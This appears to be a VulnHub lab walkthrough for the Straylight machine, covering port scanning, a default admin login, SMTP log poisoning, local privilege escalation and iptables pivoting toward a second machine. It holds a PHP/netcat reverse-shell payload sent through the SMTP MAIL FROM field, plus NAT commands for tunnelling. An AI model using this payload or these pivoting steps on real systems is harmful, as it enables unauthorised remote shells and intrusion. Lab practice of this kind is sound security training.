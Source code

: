 ```yaml
---
categories: [VulnHub]
tags: [PrivEsc]
---
```

# Straylight



## Description ⤵️

>💡 A new OSCP style lab involving 2 vulnerable machines, themed after the cyberpunk classic Neuromancer - a must read for any cyber-security enthusiast. This lab makes use of pivoting and post exploitation, which I've found other OSCP prep labs seem to lack. The goal is the get root on both machines. All you need is default Kali Linux.
<br><br>
I'd rate this as Intermediate. No buffer overflows or exploit development - any necessary password cracking can be done with small wordlists. It's much more related to an OSCP box vs a CTF. I've tested it quite a bit, but if you see any issues or need a nudge PM me here.
<br><br>
Virtual Box Lab setup instructions are included in the zip download, but here's a quick brief:
<br><br>
Straylight → simulates a public facing server with 2 NICS. Cap this first, then pivot to the final machine.
<br><br>
Neuromancer → is within a non-public network with 1 NIC. Your Kali box should ONLY be on the same virtual network as Straylight.
<br><br>
This works better with VirtualBox rather than VMware
{: .prompt-info }

Let’s find the IP Address first >>

![Untitled](/Vulnhub-Files/img/Straylight/Untitled.png)

```bash
This machine have 2 Network Adaptor therefore showing to IP but both are same :

I will be using 192.168.56.102
```

## Port Scan Results ➡️

![Untitled](/Vulnhub-Files/img/Straylight/Untitled%201.png)

```bash
Open Ports >
25			SMTP
80			HTTP			
3000		Apache		Hadoop
```

---

## Web Enumeration ⤵️

![Untitled](/Vulnhub-Files/img/Straylight/Untitled%202.png)

Let’s check different ports too →

![Untitled](/Vulnhub-Files/img/Straylight/Untitled%203.png)

Lets try admin : admin and I got In →

![Untitled](/Vulnhub-Files/img/Straylight/Untitled%204.png)

Lets check this option →

![Untitled](/Vulnhub-Files/img/Straylight/Untitled%205.png)

Now access them and found this :

![Untitled](/Vulnhub-Files/img/Straylight/Untitled%206.png)

![Untitled](/Vulnhub-Files/img/Straylight/Untitled%207.png)

After digging deeper into `/turning-bolo/` directory I got this →

![Untitled](/Vulnhub-Files/img/Straylight/Untitled%208.png)

Now I think it is indicating to us for looking for log files :

![Untitled](/Vulnhub-Files/img/Straylight/Untitled%209.png)

I have also got a port for SMTP for mail purpose so lets us this to execute our payload for reverse shell access or command shell →

![Untitled](/Vulnhub-Files/img/Straylight/Untitled%2010.png)

Now After Accesing the SMTP service I am getting this :>

![Untitled](/Vulnhub-Files/img/Straylight/Untitled%2011.png)

This image is of source code of the previous picture .

Now it’s time to execute our reverse shell code →

```
Command : MAIL FROM:<?php system('nc -e /bin/bash 192.168.56.103 4444'); ?>
```

In response to that in netcat I recevied this →

![Untitled](/Vulnhub-Files/img/Straylight/Untitled%2012.png)

⤵️

![Untitled](/Vulnhub-Files/img/Straylight/Untitled%2013.png)

Now when I got a Local Privilege Escalation so lets find for SUIDs and GUIDs files →

![Untitled](/Vulnhub-Files/img/Straylight/Untitled%2014.png)

Lets search for an exploit for `screen 4.5.0` as it is a common exploit →

![Untitled](/Vulnhub-Files/img/Straylight/Untitled%2015.png)

Now I transfered this exploit through wget and simply executed it And I got this :

![Untitled](/Vulnhub-Files/img/Straylight/Untitled%2016.png)

Now lets find the flag →

![Untitled](/Vulnhub-Files/img/Straylight/Untitled%2017.png)

also I got this →

![Untitled](/Vulnhub-Files/img/Straylight/Untitled%2018.png)

---

This is not an end !

I also got an another machine connect with this machine so lets use pivoting method to breach it too →

Now ⤵️

It time to make tunnel from straylight to Neuromancer and also to the Attacker machine So :>

```
Command : iptables -t nat -A POSTROUTING -o enp0s3 -j SNAT --to-source 192.168.56.102
```

![Untitled](/Vulnhub-Files/img/Straylight/Untitled%2019.png)

```
command : iptables -t nat -A PREROUTING -i enp0s3 -p tcp --dport 3333 -j DNAT --to-destination 192.158.56.103
```

![Untitled](/Vulnhub-Files/img/Straylight/Untitled%2020.png)

Now I have a connection between these 2 machines >

Now lets go to `Neuromancer` Machine →


